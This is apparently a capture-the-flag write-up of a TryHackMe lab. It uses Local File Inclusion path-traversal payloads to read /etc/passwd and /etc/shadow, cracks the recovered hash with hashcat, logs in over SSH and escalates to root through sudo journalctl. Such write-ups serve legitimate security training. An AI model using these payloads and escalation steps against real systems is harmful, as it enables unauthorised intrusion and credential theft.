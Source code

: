 ```yaml
---
title: Local File Inclusion (LFI) Vulnerability
author: Dimitrios Tsarouchas
date: 2021-02-01 20:55:00 +0800
categories: [CTFs, TryHackMe]
tags: [ctf, tryhackme, linux]
pin: true
featured-image: /assets/img/local-file-inclusion-vulnerability.jpg
featured-image-alt: LFI
---
```


![Local File Inclusion](/assets/img/local-file-inclusion-vulnerability.jpg)*Image from netsparker.com*

## Introduction
We are going to exploit a Linux machine that is vulnerable to Local File Inclusion attack. This will be done by using the [Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal){:target="_blank"} technique. We will get access to a local user account by cracking its password hash and then elevate our privileges, get access as superuser and find the flag.

## What is Local File Inclusion?

LFI or Local File Inclusion is a vulnerability that exploits improper input sanitisation in web applications and can lead to information disclosure, Cross-site Scripting (XSS), and remote code execution.

## Getting user access via LFI

To test a web application for LFI vulnerability we need any input field or a parameter and value combination in the URL for example `example.com/file=robots.txt`. 

With that in mind, an intruder could use LFI to access the target system and read files that which may contain sensitive information like SSH keys or passwords. Having this information in their hands intruders can then use this data to further compromise the system.

### Using the parameter found in the URL

Looking around the website and focusing on the URL bar we can see the parameter **page** with its value set to **contact.html** page. Let's check if the website is vulnerable to LFI by exploiting the `page` parameter we just found. 

First thing we can try is to get access to the `/etc/passwds` to check what users lives in that system. We will use the Path Traversal method which will give us access to files and directories that are stored in the system. 

We can include files like `../../etc/passwd` to go out twice from the current working directory and go read the `passwd` file that is inside the `/etc` directory. 

We will use from [PayloadsAllTheThings](https://github.com/cyberheartmi9/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal#basic-lfi-null-byte-double-encoding-and-other-tricks){:target="_blank"} the basic LFI `http://example.com/index.php?page=../../etc/passwd` and our URL should look like this `/home?page=../../etc/passwd`.

If we pay close attention at the very bottom of the web page, under the footer section, we managed to print all the users that exist in the system as well as proving that the system is vulnerable to Local File Inclusion. 

We can find valuable information about `/etc/passwd` at [nixCraft](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/){:target="_blank"} website. 

### Find a user in /etc/passwd

Looking better at `/etc/passwd` at the very bottom we can see that the user **Falcon** exists on the system.  

![Falcon user](/assets/img/LFI/etcpasswdFalcon.png) *Falcon user found in /etc/passwd file*

### Find Flacon's password hash

 Now that we have the user the only thing left is to find his password and get access to the system. In order to obtain Falcon's password we need to print the shadow file which contains the users hashes. From there we can grab Falcon's password hash and try crack it using Hashcat. 
 
 The only thing we have to do is to modify our value in the page parameter to look for the shadow file like  `/home?page=../../etc/shadow`. 

 ![Falcon's password hash](/assets/img/LFI/etcshadowFalcon.png) *Falcon's password hash found in /etc/shadow file*

We successfully found Falcon's hash starting with `$6$` indicating that uses **SHA512** algorithm. We will use Hashcat with hash mode of 1800 (sha512crypt $6$, SHA512) providing the FalconHash.txt text file which contains Falcon's hash against the rockyou.txt wordlist. 

### Cracking Falcon's password hash

``` terminal 
# hashcat -a 0 -m 1800 FalconHash.txt /usr/share/wordlists/rockyou.txt                                                                               
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$6$xQmTDVmT$hgSLG3ebs.8Tc/F4qqXNnvBBnG736EWpWKaprFVARjAsZ6JyoL4WaJdGv5.qddMWF4/MoJgN6Hekri8wyJ97k/:password09
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512crypt $6$, SHA512 (Unix)
``` 

Hashcat carcked successfully Falcon's password hash and revealed that Falcon uses the password: **password09**

The only thing that is left is to SSH into the target machine providing Falcon's credentials and find the user flag.

```terminal
# ssh falcon@10.10.215.76                                                  
falcon@walk:~$ ls -l
total 4
-rw-r--r-- 1 falcon falcon 21 Jan 29  2020 user.txt
falcon@walk:~$ cat user.txt
```

## Escalating our privileges to gain root access

Now that we have access to Falcon's account we will try to escalate our privileges to gain root access on the machine. In order to gain root access we need to find a vector such as a binary that could be exploited. 

You can find more information about Linux Privilege Escalation on [mzrf's blog](https://blog.mzfr.me/posts/2020-02-1-linux-priv-esc/){:target="_blank"}. 

Using the `sudo -l` command we can see what commands can Falcon run on the system as root user.
 

```terminal
falcon@walk:~$ sudo -l
Matching Defaults entries for falcon on walk:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falcon may run the following commands on walk:
    (root) NOPASSWD: /bin/journalctl

```

Falcon is able to run the `/bin/journalctl` command as superuser and now we need to find a way to use that binary for elevating our privileges. 

Searching in [GTFObins](https://gtfobins.github.io/gtfobins/journalctl/){:target="_blank"} website we found that privilege escalation can be achieved by using the sudo program. 

![Journalctl](/assets/img/LFI/journalctl.png) *GTFObins - journalctl*

After executing `sudo journalctl` we want to gain shell access as root user and we do that by using  the `!/bin/bash`.  

```terminal
falcon@walk:~$ sudo journalctl 
Jan 28 19:00:21 walk kernel: Linux version 4.15.0-20-generic (buildd@lgw01-amd64-039) (gcc version 7.3.0 (Ubuntu 7.3.0-16ubuntu3)) #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 (Ubuntu 4.15.
Jan 28 19:00:21 walk kernel: Command line: BOOT_IMAGE=/boot/vmlinuz-4.15.0-20-generic root=UUID=979754d8-4db7-4b66-a804-28a498c1cc0f ro
!/bin/bash

root@walk:~# id
uid=0(root) gid=0(root) groups=0(root)
root@walk:~# pwd
/home/falcon
```

Now we need to move to the /root directory and print the root's flag.

```terminal
root@walk:/# cd root
root@walk:/root# ls
root.txt
root@walk:/root# cat root.txt 
```